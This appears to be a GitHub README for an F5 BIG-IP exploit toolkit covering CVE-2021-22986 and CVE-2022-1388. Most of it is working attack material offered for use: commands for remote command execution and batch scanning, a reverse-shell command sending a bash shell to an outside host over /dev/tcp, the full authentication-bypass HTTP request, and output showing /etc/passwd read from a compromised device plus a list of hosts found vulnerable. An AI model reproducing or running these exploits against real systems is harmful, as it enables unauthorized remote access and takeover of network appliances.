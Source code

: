 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version
Idk why but I added the CVE-2022-1388 REST Auth Bypass RCE

but all you gotta do is do python check.py to see all cmds

</h2><strong>2021/CVE_2021 Basic use</strong></h2>
```
python3 CVE_2021.py
```
```
Vuln check: python3 CVE_2021_.py -v true -u https://192.168.174.164
```
```
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
```
```
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
```
```
batch scan: python3 CVE_2021_.py -s true -f url.txt
```
```
Reserve Shell: python3 CVE_2021.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```
```
New POC: python3 newpoc.py https://192.168.174.164
```
```
Validation mode：python CVE_2021.py -v true -u target_url 
```
```
Attack mode：python CVE_2021.py -a true -u target_url -c command 
```
```
Batch detection：python CVE_2021.py -s true -f file
```
```
Bounce mode：python CVE_2021.py -r true -u target_url -c command 
```
</h2><strong>2022/Check.py Basic use</strong></h2>

Vulnerability name: F5 BIG-IP iControl Rest API exposed Check

```
Function: single detection, batch detection    
```
```
Single detection：python exp.py -u url
```
```
Batch detection：python exp.py -f url.txt
```
```
Check: python check.py -f url.txt
```
</h2><strong>2022/CVE-1388.py basic usage</strong></h2>
this is the CVE-2022-1388 REST Auth Bypass RCE

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close, X-F5-Auth-Token, X-Forwarded-For, Local-Ip-From-Httpd, X-F5-New-Authtok-Reqd, X-Forwarded-Server, X-Forwarded-Host
Content-type: application/json
X-F5-Auth-Token: anything
Authorization: Basic YWRtaW46
Content-Length: 42

{"command": "run", "utilCmdArgs": "-c id"}
```

Vulnerability detection against a URL.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110
[+] https://192.168.2.110 is vulnerable!!!
```

Execute arbitrary commands.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110 -c 'cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
admin:x:0:500:Admin User:/home/admin:/usr/bin/tmsh
qemu:x:107:107:qemu user:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
syscheck:x:199:10::/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
......
```

Read all URLs in the file and perform vulnerability detection.

```bash
$ python CVE-2022-1388.py -f urls.txt
[-] https://10.1.6.5 is not vulnerable.
[+] https://10.1.92.34 is vulnerable!!!
[+] https://10.2.124.144 is vulnerable!!!
[+] https://10.1.194.22 is vulnerable!!!
[+] https://10.2.21.132 is vulnerable!!!
[+] https://10.1.236.2 is vulnerable!!!
[+] https://10.3.155.2 is vulnerable!!!
[+] https://10.2.155.4 is vulnerable!!!
[+] https://10.3.151.92 is vulnerable!!!
[+] https://10.4.139.131 is vulnerable!!!
[+] https://10.7.226.141 is vulnerable!!!
[+] https://10.1.129.53 is vulnerable!!!
[+] https://10.9.45.2 is vulnerable!!!
[+] https://10.5.96.105 is vulnerable!!!
[+] https://10.3.156.6 is vulnerable!!!
$ cat success.txt
https://10.1.92.34
https://10.2.124.144
https://10.1.194.22
https://10.2.21.132
https://10.1.236.2
https://10.3.155.2
https://10.2.155.4
https://10.3.151.92
https://10.4.139.131
https://10.7.226.141
https://10.1.129.53
https://10.9.45.2
https://10.5.96.105
https://10.3.156.6
```
